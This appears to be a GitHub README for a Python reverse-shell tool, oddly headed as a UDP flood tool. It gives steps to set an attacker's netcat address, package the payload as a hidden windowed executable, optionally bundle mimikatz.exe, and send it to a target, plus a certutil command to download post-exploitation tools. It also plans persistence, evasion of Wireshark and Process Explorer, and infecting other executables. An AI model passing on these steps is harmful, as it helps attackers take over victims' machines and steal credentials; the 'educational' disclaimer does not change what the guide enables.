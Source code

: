 <h1 align="center">Powerful UDP Flood attack tool written in Python 3</h1>

<p align="center">
<a href="#"><img alt="reverseshellpy forks" src="https://img.shields.io/github/forks/cdkw/reverseshellpy?style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy last commit (main)" src="https://img.shields.io/github/last-commit/cdkw/reverseshellpy/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="reverseshellpy Repo stars" src="https://img.shields.io/github/stars/cdkw/reverseshellpy?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="reverseshellpy License" src="https://img.shields.io/github/license/cdkw/reverseshellpy?color=orange&style=for-the-badge"></a>
<a href="https://github.com/cdkw/reverseshellpy/issues"><img alt="reverseshellpy issues" src="https://img.shields.io/github/issues/cdkw/reverseshellpy?color=purple&style=for-the-badge"></a>

<p align="center">Do not attack anyone without their consent.</p>
<p align="center"><img src="https://i.imgur.com/UdclI8E.png" alt="SCRIPT"></p>


# Reverse Shell Using Python
Reverse shell payload only using python
= EDUCATIONAL PURPOSES ONLY =

# Usage:

Replace in the python file the ip and port of your netcat reverse shell server.
```py
def main():
    server_ip = '127.0.0.1'  # Replace with the server's IP address
    server_port = 9001       # Replace with the same port number used on the server
```


Then using auto_py_to_exe or py_to_exe make it an executable. Note that this did not work on kali linux for me.
```
pip install auto-py-to-exe
python -m auto_py_to_exe
```

Select the `Script Location`, then choose `One file`, then choose `window based`. Add an icon if you want, or extra files like mimikatz.exe embedded into it (requires your own code). Then `Convert .py to .exe`. Open the folder you were in when u typed `python -m auto_py_to_exe` and go into `output`, in this folder you will find your exe file.

Now, just send it to your other machine. 
`Note that this is not obfuscated or made to be used with any tunnel to hide the server's ip.`


# Post-exploitation:

After gaining access to your target, you can use `certutil` (`certutil -urlcache -split -f https://www.example.com/example.zip C:\path\to\file`, it being located in the system32 folder) or the embedded `--wget` function of the rs.py to download post-exploitation tools like priviledge exploitation with `mimikatz.exe`.

# Future plans:
- Once ran, automatically add to boot menu
- Every 1 minute try to connect to server machine, if not connected
- If process explorer, wireshark or other are detected, it enters in a hibernation stage for 1 hour, then it tries the connecting again
- If ran with administrator perms, it will infect other .exe files
